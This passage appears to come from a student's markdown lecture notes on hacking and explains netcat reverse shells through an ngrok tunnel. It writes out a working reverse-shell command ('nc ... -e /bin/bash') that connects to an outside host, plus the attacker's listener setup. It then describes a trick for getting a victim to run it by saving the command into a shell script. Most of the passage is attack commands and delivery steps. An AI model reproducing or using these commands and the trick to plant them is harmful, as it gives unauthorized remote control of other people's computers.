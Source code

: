 	- Eg : here Saurabh (i.e victim/client) executed this command "`nc -v 0.tcp.in.ngrok.io 15576 -e /bin/bash`" <br>- & when sir (i.e attacker/server) executed this command `nc -lvp 8686` + "`ngrok tcp 8686`" <br>- then sir (i.e attacker/server) got access of files & folders of Saurabh (i.e victim/client) <br>- now sir can do what he wants <br><img src="../notes-pics/03-Module/20_lecture/20_lecture-12-M3.jpg" alt="" width="500"/>
	- STEP 3 : inside Victim (i.e client) system , break the connection - press `CTRL + C`
- Practical - A Trick to execute that command inside the Victim's system
	- Q : why Victim wants to run that command & give the access of his/her system to unknown person 
	- here we're taking example of reverse shell
	- STEP 1 : we make a file , run `gedit reverseshell.sh` <br>- ".sh" file extension : means a bash executable file
	- STEP 2 : inside the file , paste the command i.e `nc -v 0.tcp.in.ngrok.io 15576 -e /bin/bash`
		- Note : don't leave a empty line inside that file - like this <br><img src="../notes-pics/03-Module/20_lecture/20_lecture-13-M3.jpg" alt="" width="500"/>
		- STEP 2.1 : save the file
		- `nc -v 0.tcp.in.ngrok.io 15576 -e /bin/bash` : means ✔<br>- "0.tcp.in.ngrok.io 15576" : come to connect on this IP address & port no. <br>- "-e /bin/bash" : means once victim's system comes to connect then his/her system will bring this location 